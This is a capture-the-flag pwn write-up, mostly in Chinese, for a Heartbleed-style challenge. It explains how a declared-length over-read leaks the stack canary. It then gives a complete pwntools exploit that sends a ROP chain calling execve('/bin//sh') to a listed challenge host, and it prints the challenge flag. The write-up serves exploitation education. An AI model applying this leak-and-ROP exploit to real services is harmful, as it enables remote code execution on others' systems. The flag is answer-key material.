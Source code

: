 # A Guilded Lily

> pwn

## 题目描述

Years ago there was this neat little bug discovered in OpenSSL, which became known as "Heartbleed". The world's first bug with a name. Heck, it even had a logo! I have attempted to recreate something thematically similar to Heartbleed here for you.

There are plenty of ROP gadgets here, but not a single "/bin/sh" string. Darn it! Maybe you could put "/bin/sh" somewhere in memory yourself, as you send the payload? If so it sure would be convenient if one of the registers was already pointing to it. If you could only find some ROP gadgets to shuffle that register's value into RDI...

Download exploit2.bin

The binary is running at 34.123.210.162 port 20233

## 解题思路

- 题干指出这是对 OpenSSL 的心脏滴血漏洞的一个重现版本。心脏滴血漏洞的基本原理是用户会发送一个请求，其中包含了内容长度和实际内容，而该漏洞的触发原因是没有检查用户**实际输入长度**而将内存中**用户声明的输入长度**的内存信息泄露出来。
- 首先查看保护情况，存在栈保护：
  
  ![checksec](images/checksec.png)

- 再查看源码信息

  ![源码分析](images/源码分析.png)

- 程序要求输入形如 `%d:%s` 的字符串，其中数字部分保存在 `v8` 中，字符串保存在 `v9` 中，然后会打印 `v9` 所在栈上长度为 `v8` 的数据。由于外层循环条件是 `v8 > 0`，所以可以首先泄露 canary 的值，然后进行栈溢出漏洞利用。
- 题目附件本身比较大，用 file 命令查看一下信息，发现果然是静态链接的

  ![file信息](images/文件信息.png)

- 然后用 ROPgadget 直接生成 ROP 链：`ROPgadget --binary exploit2.bin --ropchain`，最后就可以构造 exp 了

## exp

```python
from struct import pack as spack
from pwn import *

r = remote('34.123.210.162', 20233)
context(arch='amd64', os='linux', log_level='debug')
r.recvuntil(b'Waiting for heart beat request...\n')
p = b' 1100:'+b'a'*1032
r.sendline(p)
r.recvline()
canary = r.recvline()[1032:1040]
r.recvuntil(b'Waiting for heart beat request...\n')

p = b' 1:'+b'a'*1032+canary+b'a'*8
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e0)  # @ .data
p += spack('<Q', 0x0000000000451fd7)  # pop rax ; ret
p += b'/bin//sh'
p += spack('<Q', 0x0000000000499b65)  # mov qword ptr [rsi], rax ; ret
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x000000000044c190)  # xor rax, rax ; ret
p += spack('<Q', 0x0000000000499b65)  # mov qword ptr [rsi], rax ; ret
p += spack('<Q', 0x00000000004018e2)  # pop rdi ; ret
p += spack('<Q', 0x00000000004df0e0)  # @ .data
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x00000000004017ef)  # pop rdx ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x000000000044c190)  # xor rax, rax ; ret
p += spack('<Q', 0x000000000048ec70)*59  # add rax, 1 ; ret
p += spack('<Q', 0x00000000004012e3)  # syscall

r.sendline(p)
r.recvuntil(b'Waiting for heart beat request...\n')
r.sendline(b' 0:!')
r.interactive()
```

## flag

`poctf{uwsp_4_57udy_1n_5c42137}`

![flag](images/flag.png)